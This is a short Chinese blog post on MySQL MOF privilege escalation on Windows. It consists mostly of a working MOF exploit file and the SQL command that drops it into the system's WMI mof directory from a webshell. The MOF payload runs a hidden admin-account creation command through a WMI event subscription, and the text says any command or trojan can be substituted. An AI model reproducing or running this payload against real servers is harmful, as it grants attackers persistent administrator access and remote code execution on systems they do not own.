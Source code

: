 ```yaml
---
layout: post
title: "mysql mof 提权"
description: ""
category: 渗透测试
tags: [mysql]
---
```

{% include JB/setup %}


## 参考资料 ##

[mof运行远控](http://zone.wooyun.org/content/2273)

[windows写权限变成可执行权限的利用](http://zone.wooyun.org/content/1806)

[利用代码](http://zone.wooyun.org/content/1795)

[exploitdb](http://www.exploit-db.com/exploits/23083/)

## 利用代码 ##

1.找个可写目录，我这里是C:\recycler\，把如下代码写到nullevt.mof文件里（也就是他源码里的payload）：

    #pragma namespace("\\\\.\\root\\subscription")#
	instance of __EventFilter as $EventFilter
	{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
	};

	instance of ActiveScriptEventConsumer as $Consumer
	{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")";
	};

	instance of __FilterToConsumerBinding
	{
    Consumer   = $Consumer;
    Filter = $EventFilter;
	};


注意上面的net.exe user admin admin /add，可以随便改的，想执行啥都行，有没有参数也都行，执行自己的马也行。
再然后，在菜刀里连接mysql数据库后执行：

	select load_file('C:\\RECYCLER\\nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';


## 分析 ##

本质上是写权限变可执行权限,将mof文件写入特定目录,导致其被执行.
